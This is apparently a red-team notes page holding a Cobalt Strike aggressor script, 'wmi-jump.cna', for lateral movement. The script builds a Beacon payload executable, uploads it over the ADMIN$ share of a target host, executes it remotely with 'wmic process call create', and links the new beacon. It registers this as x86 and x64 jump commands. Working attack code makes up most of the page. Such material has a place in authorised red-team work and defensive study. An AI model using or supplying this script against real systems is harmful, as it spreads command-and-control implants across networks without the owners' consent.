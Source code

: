 # Jump

Search Tag(s): #helpers #command-and-control #post-exploitation #lateral-movement #cobalt-strike

TODO: Create aggressor scripts to aid in lateral movement

## WMI

`$ cat wmi-jump.cna`

---

TODO: Add powershell cmdlet Invoke-WmiMethod in the aggressor script wmi_psh and wmi64_psh

```perl
# $1 = bid (beacon_id), $2 = target, $3 = listener

$process_name = rand(@("svchost", "evil", "detectme"));

sub wmi_remote_spawn {
   local('$name $exedata');

   btask($1, "Tasked Beacon to jump to $2 (" . listener_describe($3) . ") via WMI", "T1047");

   # we need a random file name.
   $name = $process_name . rand(100) . ".exe";

   # generate an EXE. $arch defined via &lambda when this function was registered with
   # beacon_remote_exploit_register
   $exedata = artifact_payload($3, "exe", $arch);

   # upload the EXE to our target (directly)
   bupload_raw!($1, "\\\\ $+ $2 $+ \\ADMIN\$\\ $+ $name", $exedata);

   # execute this via WMI
   brun!($1, "wmic /node:\" $+ $2 $+ \" process call create \"\\\\ $+ $2 $+ \\ADMIN\$\\ $+ $name $+ \"");

   # assume control of our payload (if it's an SMB or TCP Beacon)
   beacon_link($1, $2, $3);
}

beacon_remote_exploit_register("wmi", "x86", "Use WMI to run a Beacon payload", lambda(&wmi_remote_spawn, $arch => "x86"));
beacon_remote_exploit_register("wmi64", "x64", "Use WMI to run a Beacon payload", lambda(&wmi_remote_spawn, $arch => "x64"));
```

---
## References

- [Cobalt Strike User Guide: Aggressor Script Beacon](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as_beacon.htm)